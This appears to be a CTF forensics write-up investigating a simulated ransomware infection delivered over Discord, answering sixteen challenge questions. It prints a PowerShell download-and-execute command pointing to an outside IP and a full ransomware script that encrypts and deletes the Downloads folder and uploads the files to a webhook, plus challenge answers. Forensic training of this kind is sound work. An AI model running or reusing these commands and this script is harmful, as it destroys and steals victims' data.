










# hacked

1. Username on the device infected with malware?



Answer: `Peacock`

2. Which folder is encrypted by the malware?



Answer: `C:\Users\Peacock\Downloads`

3. The threat actor's crypto wallet?



Answer: `0xe28789577b1F8cfD964b2fD860807758216CeAE1`

4. What applications do threat actors use to interact with victims?

Answer: `Discord`

5. Victim's Discord ID?

Export discord cache and parse it using `ChromeCacheViewer`



Extract and grep the ID

```
...
"author":{"id":"1391969554309058590","username":"peacock1337","avatar":"2980ae3fb2caa8759ec385a5f0893742",
...
```

Answer: `1391969554309058590`

6. Threat actor's Discord ID?

Following the same method as before

```
...
"author":{"id":"1391972617149481050","username":"f16yum","avatar":"9614bb4b6e68e613804937c4567074b4",
...
```

Answer: `1391972617149481050`

7. When did the threat actor join the same group as the victim?

On Discord cache, it appears that the threat actor and the victim are in the same group, called `Risk of Rain 2`. Join the group and find the threat actor username



Answer: `08/07/2025`

8. The link containing malware that was sent by the threat actor to the victim?

Use the same file as to answer questions 4 and 5

```
...
{"type":0,"content":"https://drive.google.com/file/d/1ZK-MED8DZcgsITflYMvWwAzYIlOFS7zu/view?usp=sharing","mentions":[],"mention_roles":[],
...
```

Answer: `https://drive.google.com/file/d/1ZK-MED8DZcgsITflYMvWwAzYIlOFS7zu/view?usp=sharing`

9. After the victim downloads and unzips the file, the malware file is moved to what folder?

Based on $MFT data, the victim moved main.exe from `C:\Users\Peacock\Downloads\main.exe` to `C:\Users\Peacock\Documents\main.exe`



Answer `C:\Users\Peacock\Documents\main.exe`

10. What is the URL accessed by the initial dropper to download the second-stage loader?

There are two methods. One is static analysis, where the malware's code is reversed using [pyinstxtractor-ng](https://github.com/pyinstxtractor/pyinstxtractor-ng) and deobfuscate the code. The other method is dynamic analysis, which can be run directly.

Answer `http://143.198.88.30:1338/installer.exe`

11. Where was the second-stage loader stored after being downloaded?

The first stage malware will store the initial malware in the `C:\Windows\Temp` directory



There are 2 files, the first one is 0 size because the malware failed to run but the victim executed the malware again. And the second file, `MkbrkEXh.exe` is the answer

Answer: `C:\Windows\Temp\MkbrkEXh.exe`

12. What repository does the threat actor use to develop the second-stage loader?

This malware was written using [go-shellcode](https://github.com/Ne0nd0g/go-shellcode), a technique previously used by lazarus. By exploiting `UuidFromStringA`, lazarus successfully bypassed several AVs at the time

Answer: `https://github.com/Ne0nd0g/go-shellcode`

13.  What is the full PowerShell command executed by the second-stage loader?

This can be obtained from the powershell log located at `C:\Windows\System32\winevt\Logs\Windows PowerShell.evtx`



Answer: `powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://143.198.88.30:1338/o.ps1')`

> Or do static analysis on the second-stage loader

14. What URL does the final payload send the encrypted file to after encryption?

If the powershell script is reversed, it will look like this

```powershell
$keyString = [System.Text.Encoding]::UTF8.GetString(
    [System.Convert]::FromBase64String("SUlUVFNTRUVDQ19DVEYyMDI1Q295eXl5eSEhISE=")
)

function XorEncrypt($data, $key) {
    $result = [byte[]]::new($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $result[$i] = $data[$i] -bxor $key[$i % $key.Length]
    }
    return $result
}

function UploadFileToWebhook($filePath, $webhookUrl) {
    try {
        Invoke-RestMethod -Uri $webhookUrl -Method Post -InFile $filePath -ContentType "application/octet-stream"
    } catch {
        Write-Host "Failed to upload $filePath: $_"
    }
}

$downloadsPath = [System.IO.Path]::Combine(
    [System.Environment]::GetFolderPath("UserProfile"),
    "Downloads"
)

$files = Get-ChildItem -Path $downloadsPath -File -Recurse

foreach ($file in $files) {
    $fullPath = $file.FullName

    $fileBytes = [System.IO.File]::ReadAllBytes($fullPath)

    $encryptedBytes = XorEncrypt $fileBytes ([System.Text.Encoding]::UTF8.GetBytes($keyString))

    $encryptedFilePath = $fullPath + ".enc"
    [System.IO.File]::WriteAllBytes($encryptedFilePath, $encryptedBytes)

    Remove-Item $fullPath

    $webhookUrl = "https://webhook.site/5bdcd260-64f9-47d9-9fb5-1ef8146dc402"
    UploadFileToWebhook $encryptedFilePath $webhookUrl
}

$ransomNotePath = [System.IO.Path]::Combine($downloadsPath, "README.txt")
[System.IO.File]::WriteAllText($ransomNotePath, "Send me 10000 USDT to unlock your PC (0xe28789577b1F8cfD964b2fD860807758216CeAE1)")
```

Using the previous script, the answer is in `$webhookUrl` variable

Answer: `https://webhook.site/5bdcd260-64f9-47d9-9fb5-1ef8146dc402`

15. What key was used by the final payload to encrypt the Downloads folder?

Using the previous script, decode the string in the variable `$keyString`



Answer: `IITTSSEECC_CTF2025Coyyyyy!!!!`

16. Decrypt the .txt file located in the Downloads folder and input its contents!

Extract `IMPORTANT NOTES.txt.enc` and decrypt the file to get the answer



Answer: `EzMalware_1337!!`

# References:

- https://abrignoni.blogspot.com/2018/03/finding-discord-app-chats-in-windows.html
- https://cocomelonc.github.io/malware/2022/07/21/malware-tricks-22.html#uuidfromstringa